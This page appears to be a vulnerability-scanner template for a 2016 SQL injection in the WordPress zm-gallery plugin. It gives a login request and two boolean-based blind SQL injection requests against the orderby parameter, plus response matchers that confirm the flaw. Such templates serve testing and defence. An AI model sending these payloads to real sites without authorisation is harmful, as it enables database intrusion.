 
# WordPress zm-gallery plugin 1.0 SQL Injection

## Description

- zm-gallery plugin 1.0 for WordPress is susceptible to SQL injection via the order parameter.
- severity - high
- tags - wpscan,cve,cve2016,sqli,wp,wordpress,wp-plugin,authenticated

## Requests

### Step - 1

```
POST /wp-login.php HTTP/1.1
Host: {{Hostname}}
Origin: {{RootURL}}
Content-Type: application/x-www-form-urlencoded
Cookie: wordpress_test_cookie=WP%20Cookie%20check

log={{username}}&pwd={{password}}&wp-submit=Log+In&testcookie=1

```

### Step - 2

```
GET /wp-admin/admin.php?page=zm_gallery&orderby=(SELECT%20(CASE%20WHEN%20(7422=7422)%20THEN%200x6e616d65%20ELSE%20(SELECT%203211%20UNION%20SELECT%208682)%20END))&order=desc HTTP/1.1
Host: {{Hostname}}

```

### Step - 3

```
GET /wp-admin/admin.php?page=zm_gallery&orderby=(SELECT%20(CASE%20WHEN%20(7422=7421)%20THEN%200x6e616d65%20ELSE%20(SELECT%203211%20UNION%20SELECT%208682)%20END))&order=desc HTTP/1.1
Host: {{Hostname}}

```

### Matchers

**Type - dsl**

- dsl
  1. status_code_1 == 302 && status_code_2 == 200 && status_code_3 == 200
  2. contains(body_2, "[zm_gallery id=")
  3. contains(body_2, "\<th scope=\"row\" class=\"check-column\">")
  4. !contains(body_3, "\<th scope=\"row\" class=\"check-column\">")
- condition - and

---